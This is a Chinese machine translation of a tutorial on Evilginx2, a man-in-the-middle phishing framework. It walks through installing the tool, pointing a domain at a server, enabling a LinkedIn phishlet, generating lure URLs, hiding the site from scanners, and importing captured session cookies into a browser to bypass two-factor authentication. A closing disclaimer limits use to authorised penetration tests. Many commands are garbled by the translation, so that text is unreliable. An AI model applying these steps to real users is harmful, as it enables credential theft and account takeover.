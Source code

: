 # Evilginx2:独立的中间人攻击框架

> 原文：<https://kalilinuxtutorials.com/evilginx2-man-in-the-middle-attack/>

**Evilginx2** 是一个中间人攻击框架，用于钓鱼登录凭证和会话 cookies，从而允许绕过双因素身份验证保护。

该工具是 2017 年发布的 [Evilginx](https://github.com/kgretzky/evilginx) 的继任者，该工具使用 nginx HTTP server 的定制版本来提供中间人功能，以充当浏览器和钓鱼网站之间的代理。

目前的版本完全是作为一个独立的应用程序在 GO 中编写的，它实现了自己的 HTTP 和 DNS 服务器，这使得它非常容易设置和使用。

**同时阅读[FindYara–IDA Python 插件用 Yara 规则扫描二进制](https://kalilinuxtutorials.com/findyara-ida-python-plugin/)**

### **eviginx 2 安装**

你可以为你的架构使用一个[预编译的二进制包](https://github.com/kgretzky/evilginx2/releases)，或者你可以从源代码编译 **evilginx2** 。

您将需要一个外部服务器来托管您的 **evilginx2** 安装。我个人推荐数字海洋，如果你跟随我的推荐链接，你将[获得额外的 10 美元用于免费的服务器](https://m.do.co/c/50338abc7ffe)。

Evilginx 在最基本的 Debian 8 VPS 上运行得非常好。

#### 从源安装

为了从源代码编译，请确保您已经安装了版本至少为 **1.10.0** 的 **GO** (从[这里](https://golang.org/doc/install)获取)并且`$GOPATH`环境变量设置正确(def。`$HOME/go`)。

安装完成后，将此添加到您的`**~/.profile**`中，假设您在`**/usr/local/go**`中安装了 **GO** :

**导出 GOPATH=$HOME/go
导出路径= $ PATH:/usr/local/go/bin:$ GOPATH/bin**

然后用`**source ~/.profiles**`加载。

现在你应该准备好安装 **evilginx2** 了。请遵循以下说明:

**sudo apt-get install git make
go get-u github . com/kgretzky/evilginx 2
CD $ gopath/src/github . com/kgretzky/evilginx 2
make**

您现在可以从本地目录运行 **evilginx2** ,如下所示:

**须藤。/bin/evilginx -p ./phishlets/**

或者全局安装:

**须藤制作安装
须藤邪恶**

以上说明也可用于将 **evilginx2** 更新至最新版本。

#### 使用 Docker 安装

您可以从 Docker 中启动 **evilginx2** 。首先构建容器:

**码头工人建造。-t evilginx2**

然后，您可以运行容器:

**坞站运行-it-p53:53/UDP-p80:80-p443:443 evilginx 2**

Phishlets 在`**/app/phishlets**`被加载到容器中，该容器可以作为一个卷进行安装和配置。

#### 从预编译的二进制包安装

从[这里](https://github.com/kgretzky/evilginx2/releases)拿起你想要的包裹，放在你的箱子上。然后做:

**拉开拉链。zip -d
cd**

如果要进行系统范围的安装，请使用具有 root 权限的安装脚本:

**chmod 700。/install.sh
sudo。/install.sh
须藤 evilginx**

或者从当前目录启动 **evilginx2** (您还需要 root 权限):

**chmod 700。/evilginx
须藤。/evilginx**

### **用途**

**重要！**确保`**TCP** **443**`、`**TCP 80**`和`**UDP 53**`端口没有服务监听。您可能需要关闭 apache 或 nginx 以及任何可能正在运行的用于解析 DNS 的服务。 **evilginx2** 会在启动时告诉你它是否无法打开这些端口上的监听套接字。

默认情况下， **evilginx2** 会在`**./phishlets/**`目录中查找网页仿冒品，之后在`**/usr/share/evilginx/phishlets/**`中查找。如果您想要指定一个自定义路径来加载网页仿冒网站，请在启动该工具时使用`**-p <phishlets_dir_path>**`参数。

的用法。/evilginx:
-debug
启用调试输出
-developer
启用开发者模式(为所有主机名生成自签名证书)
-p string
Phishlets 目录路径

你应该看到 **evilginx2** 的标志，并提示输入命令。如果您想查看可用的命令或关于它们的更多详细信息，请键入`**help**` 或`**help <command>**`。

### **入门**

要启动并运行，您需要首先做一些设置。

此时，我假设您已经注册了一个域(姑且称之为`yourdomain.com`)，并且在您的域提供商的管理面板中设置了域名服务器(包括`ns1`和`ns2`)以指向您的服务器的 IP 地址(例如 10.0.0.1):

ns1.yourdomain.com = 10 . 0 . 0 . 1
ns2.yourdomain.com = 10 . 0 . 0 . 1

使用以下命令设置服务器的域和 IP:

**配置域 yourdomain.com
配置 ip 10.0.0.1**

现在，您可以设置想要使用的 phishlet。为了这个简短的指南，我们将使用一个 LinkedIn phishlet。为网页仿冒网站设置主机名(显然必须包含您的域名):

**my.phishing.hostname.yourdomain.com LinkedIn 上的网页简介主机名**

现在您可以`enable`phish let，如果在本地没有找到您选择的主机名的证书，它将自动检索 LetsEncrypt SSL/TLS 证书:

**phishlets 启用 linkedin**

您的钓鱼网站现已上线。想想这个 URL，您希望受害者在成功登录后被重定向到该 URL，并获得如下钓鱼 URL(受害者将被重定向到`https://www.google.com`):

**https://www.google.com LinkedIn 网站**

运行的网络钓鱼只会响应标记化的链接，因此任何扫描您的主域的扫描器都将被重定向到在`config`下指定为`redirect_url`的 URL。如果你想隐藏你的网页仿冒网站，让它甚至对有效的令牌化网页仿冒网址都不作出响应，使用`phishlet hide/unhide <phishlet>`命令。

您可以使用以下工具监控捕获的凭据和会话 cookies:

**会话**

要获得关于捕获会话的详细信息，使用会话 cookie 本身(它将以 JSON 格式打印在底部)，选择它的会话 ID:

**会话**

使用 [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) 扩展，可以将捕获的会话 cookie 复制并导入 Chrome 浏览器。

**重要！**如果你想让 **evilginx2** 在你退出服务器后继续运行，你应该在`screen`会话中运行它。

### **视频教程**

https://vimeo.com/281220095

### 放弃

*   我们非常清楚 Evilginx 可能被用于邪恶的目的。这项工作只是演示了熟练的攻击者可以做什么。
*   防御方有责任考虑此类攻击，并找到保护其用户免受此类网络钓鱼攻击的方法。
*   Evilginx 应仅在合法的渗透测试任务中使用，并获得潜在相关方的书面许可。

[**Download**](https://github.com/kgretzky/evilginx2)

**信用:** @cust0msync，@white_fi，rvrsh3ll @424f424f